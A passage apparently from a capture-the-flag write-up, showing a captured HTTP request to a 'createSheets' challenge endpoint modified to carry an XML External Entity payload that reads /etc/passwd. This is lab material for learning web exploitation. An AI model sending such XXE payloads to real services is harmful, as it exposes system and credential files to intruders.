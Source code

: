 Capture a valid request and modify it

```http
POST /createSheets HTTP/1.1
Host: challenge.ctf.games:30359
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/xml
Content-Length: 396
Origin: http://challenge.ctf.games:30359
Connection: close
Referer: http://challenge.ctf.games:30359/createSheets
DNT: 1
Sec-GPC: 1


 <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]> <sheet title="Dream Sheets">  
	<row><cell>Bed Size</cell><cell>&ent;</cell></row> 
	<row><cell>Color</cell><cell>#ffffff</cell></row> 
	<row><cell>Thread Count</cell><cell>400</cell></row>
	<row><cell>Quantity</cell><cell>1</cell></row>
	</sheet>
```

![](/assets/obsidian/5700f09dd27c685b76402a55b41060e5.png){:target='_blank'}

![](/assets/obsidian/2aca1da10a8b98c802231d55b0ff7af5.png){:target='_blank'}
